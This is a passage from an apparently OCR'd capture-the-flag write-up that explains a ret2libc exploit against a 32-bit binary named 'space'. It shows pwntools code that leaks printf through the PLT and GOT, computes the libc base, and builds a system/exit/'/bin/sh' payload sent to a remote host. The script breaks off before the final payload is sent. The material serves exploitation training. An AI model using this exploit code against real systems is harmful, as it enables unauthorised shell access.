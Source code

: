 now its `ret2libc` attack from here.
for a  `ret2libc` attak we will need three address as argunment for execv.
`system`,`exit` and `/bin/sh`.
lets load it in our  script.

```shell
system_offset = libc.symbols['system']
exit_offset = libc.symbols['exit']
bash_offset = next(libc.search('/bin/sh\x00'))
```
we need to add libc base address to these offset to get the atual address.

```shell
system = p32(libc_base + system_offset)
exit = p32(libc_base + exit_offset) 
shell= p32(libc_base + bash_offset)
```
so our payload will be `junk + system + exit + shell`.
we have everything we need to exploit the binary .


### Final Exploit

here is our `final exploit`

```shell
!/usr/bin/python

from pwn import *

elf = context.binary = ELF("./space")

def start():
    return process(elf.path)


junk = "A"*18
plt_printf = p32(elf.plt["printf"] )
main = p32(elf.sym["main"])
got_printf = p32(elf.got["printf"])

print "plt@printf", hex(u32(plt_printf))
print "plt@main", hex(u32(main))
print "plt@printf", hex(u32(got_printf))

payload = junk + plt_printf + main + got_printf
io = remote(host,port)

io.recvuntil(">")
io.sendline(payload)
leak = io.recvuntil(">")
leak_printf = u32(leak[1:5])
print "printf@leak", hex(u32(leak[1:5]))

libc = ELF("./libc6-i386_2.31-0ubuntu9_amd64.so") # in this case libc version is

offset = libc.symbols['printf']
libc_base = leak_printf - offset
print "libc_base", hex(libc_base)

system_offset = libc.symbols['system']
exit_offset = libc.symbols['exit']
bash_offset = next(libc.search('/bin/sh\x00'))

junk = "\x90"*18 # nops
system = p32(libc_base + system_offset)
exit = p32(libc_base + exit_offset) 
```